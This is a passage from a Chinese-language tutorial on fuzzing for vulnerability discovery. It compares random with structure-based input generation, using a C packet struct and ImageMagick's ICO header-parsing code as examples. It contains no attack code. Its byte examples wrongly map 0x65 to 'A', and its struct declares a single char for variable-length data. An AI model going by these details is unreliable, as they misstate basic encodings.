  由此可知,只有能被ImageMagick 识别到的图像格式才可以被传递到对应的图像解析decoder 里面去解析数据.但是我们并不关心decoder 是怎么样去解析的,所以这部分我们使用随机生成数据.为什么不全部都用随机生成数据呢,这样会导致生成的图像特征码都是随机的,碰撞到正确的图像特征码的概率很低,浪费很多时间和资源在这些没有意义的地方.所以我们需要给定一个区间来让Fuzzer 生成数据,这样才能让ImageMagick 选择到decoder 来解析,如果我们要对所有的图像格式都要做对应的针对适配,**没有统一的格式**,按照特定的格式来生成数据,这样的人力成本太大了,不如让Fuzzer 随机生成数据.


### Fuzzing 网络协议

  网络协议都是已经固定好的数据格式,然后由一方发出到另一方来解析执行.我们来回顾一下C 语言的struct 结构
  
```c

    typedef struct {
        int  packet_type;
        int  packet_data_length;
        char packet_data;
    } packet ;

```

  这个结构对应的内存布局
  
```

    packet_type(4 Byte) | packet_data_length(4 Byte) | packet_data(packet_data_length Byte)

```
  
  根据这个内存布局,我们来举几个例子,(为了方便阅读数据顺序是大端字节)

```

    0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x02 0x65 0x65 => 0 | 2 | AA
    0x00 0x00 0xFF 0x00 0x00 0x00 0x00 0x04 0x01 0x02 0x03 0x04 => 0xFF00 | 4 | 0x01 0x02 0x03 0x04
    0x1d 0xb2 0xaa 0x42 0x00 0x21 0xd2 0x23 0x65 => 0x1db2aa42 | 0x21d223 | A
    ...

```

  前面两个例子是按照格式构造的,最后那个例子是瞎写的.用前面提到的两种方式(随机生成数据和按结构生成数据)来生成Fuzzing 数据,例子如下
  
```

    按结构生成数据:random.randint() | random.randint() | random.randstring(4)
    随机生成数据:random.randstring(12)

```

  不知道读者们有没有注意到非常重要的一点,这两条例子是等价的.也就是说`random.randint() | random.randint() | random.randstring(4)` 等价于`random.randstring(12)` .所以这个时候按结构生成数据的意义就没有了,我们来看一下ImageMagick 的图片解析部分代码`coders/icon.c:295`
  
```c

    icon_file.reserved=(short) ReadBlobLSBShort(image);
    icon_file.resource_type=(short) ReadBlobLSBShort(image);
    icon_file.count=(short) ReadBlobLSBShort(image);
    if ((icon_file.reserved != 0) ||
      ((icon_file.resource_type != 1) && (icon_file.resource_type != 2)) ||
      (icon_file.count > MaxIcons))
        ThrowReaderException(CorruptImageError,"ImproperImageHeader");
    extent=0;
    for (i=0; i < icon_file.count; i++)
    {
        icon_file.directory[i].width=(unsigned char) ReadBlobByte(image);
        icon_file.directory[i].height=(unsigned char) ReadBlobByte(image);
        icon_file.directory[i].colors=(unsigned char) ReadBlobByte(image);
        icon_file.directory[i].reserved=(unsigned char) ReadBlobByte(image);
        icon_file.directory[i].planes=(unsigned short) ReadBlobLSBShort(image);
        icon_file.directory[i].bits_per_pixel=(unsigned short)
          ReadBlobLSBShort(image);
        icon_file.directory[i].size=ReadBlobLSBLong(image);
        icon_file.directory[i].offset=ReadBlobLSBLong(image);
        if (EOFBlob(image) != MagickFalse)
          break;
        extent=MagickMax(extent,icon_file.directory[i].size);
    }

```

  这部分的代码相当于按照这个格式来读取数据

```

    short | short | short | [ Byte | Byte | Byte | Byte | long | long ] | [ Byte | Byte | Byte | Byte | long | long ] | ...

```

  所以,直接使用random.randstring() 直接生成随机数据传递到这里Fuzzing 即可,无需再按结构生成数据.
  
  回到这个小节提出的问题:那么什么时候选择随机生成数据,什么时候选择按结构生成数据呢?**如果输入是有限制的,那就按结构生成数据,如果输入是无限制的,那就随机生成数据;如果按结构生成数据可以触发更多的代码执行,那就按结构生成数据,否则就使用随机生成数据**.


## 结尾

  阅读源码是一个非常有用的技能,**绝大多数的疑惑,都能在源码里面找到**,这是以前在腾讯的一位T3 的同事给我的教诲,受益至今.前面用了很多的篇幅,介绍了Fuzzing 和阅读源码之间的关系是有多么重要.希望这些经验能够帮助在学习挖掘漏洞的读者们.本章是偏向于二进制的Fuzzing 的,关于二进制还有一些其他的Fuzzing 经验和大家分享.


